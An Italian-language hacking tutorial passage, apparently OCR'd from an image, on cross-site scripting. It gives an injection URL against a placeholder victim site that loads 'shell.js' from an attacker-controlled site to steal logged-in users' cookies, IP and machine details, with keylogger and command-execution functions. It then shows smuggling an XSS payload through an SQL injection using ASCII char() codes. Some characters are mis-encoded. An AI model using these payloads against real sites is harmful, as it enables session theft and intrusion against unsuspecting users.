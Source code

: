 code, possiamo quindi scrivere:

http://sitovittima.com/vuln.php?x=1">/XaDoS/><script

src="http://nostrosito.com/shell.js"></script>

facendo cliccare come al solito alla vittima il nostro cattivissimo indirizzo questa volta

succederÃ  qualcosa di diverso:

Essendo l'utente collegato e loggato ad il sitovittima in questione attraverso la shell.js

nella nostra pagina privata jsback.php ci appariranno i suoi cookies! ma non solo: il suo

ip, informazioni riguardanti la sua macchina ecc.. in piÃ¹ grazie a questa particolare pagina

ci sono altre funzioni come keylogger/esecuzione comandi/proxy/ CSRF(di cui tratterÃ² nel

prossimo capitolo) ecc
che perÃ² potrete vedere sul sito degli autori (Inj3ct-it).

Capite quindi che .. non si scherza con le XSS !! ;-)





Code:
[!] Le XSS stanno sempre bene con le SQL: una dentro l'altra

Quanti di voi sanno quanto spesso cpaita che uno trovi una SQL e scopri in seguito che la

stessa variabile buggata Ã¨ vuln a XSS; oppure, ancora meglio, quante volte capita che ci si

trova davanti ad una XSS e poco dopo trovi qualcuno che ti dice:"hey! ma qui c'Ã¨ un sql!"(

s3rg3770 :) )
Bene possiamo quindi giungere alla conclusione che stanno bene insieme.

Ma se vi dicessi che UNa puÃ² perfino stare dentro l'altra?
suona strana come frase vero..
VI spiego bene:
Semplicemente una volta trovata una sql, possiamo benissimo usare il nostro solito comando

char()

in modo un po' stravagante:

come sappiamo di solito inseriamo del codice, convertito in ASCII. Ma allora se provassimo

ad inserire codice JavaScript ?? su, proviamoci.
Passiamo subito al codice:

abbiamo la nostra tipica XSS:

<script>alert('xssbyXaDoS')</script>

e vorremmo inserirla nell'SQL..ma ricordiamoci
che dobbiamo convertirla in ASCII per far si che ritorni l'alert;
quindi attraverso un normalissimo ASCII converter nel web la convertiamo in:

60 115 99 114 105 112 116 62 97 108 101 114 116 40 39 120 115 115 98 121 88 97 68 111 83 39

41 60 115 99 114 105 112 116 62
